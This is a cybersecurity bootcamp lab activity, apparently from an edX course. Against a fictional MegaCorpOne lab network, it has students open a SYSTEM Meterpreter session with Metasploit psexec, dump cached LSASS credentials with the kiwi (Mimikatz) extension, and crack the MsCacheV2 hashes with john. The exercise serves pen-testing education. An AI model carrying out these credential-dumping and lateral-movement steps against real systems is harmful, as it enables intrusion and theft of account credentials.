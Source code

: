 ## Activity File: Credential Dumping

In this activity, you'll continue to play the role of a pen tester conducting an engagement on MegaCorpOne. You are tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine. Then you will save and crack the hashes using `john`.

⚠️ **Reminder:** Don't forget to save your findings, as you will add them to your Week 17 Homework!

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](../../../Images/psexecoptions.PNG)

3. Run the module with `run`.

	 ![A screenshot depicts the results of the command.](../../../Images/runpsexec.PNG)

4. In your Meterpreter session, load the `kiwi` extension:

     - `load kiwi`

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter:

     - `?`

6. Dump all the cached credentials from LSASS using a `kiwi_cmd` command. Reference the [cheat sheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49) for Mimikatz. Pay attention to the "lsadump" section. 

     **Note:** If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you want to migrate to another SYSTEM x64 process.

7. In the output, the hashes are displayed after the "MsCacheV2 field." MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown.

	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag`--format=mscash2`, e.g., `john --format=mscash2 hashes.txt`.

8. You should now have the plain-text password to the new account of bbanner.                                                                                                                            
---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



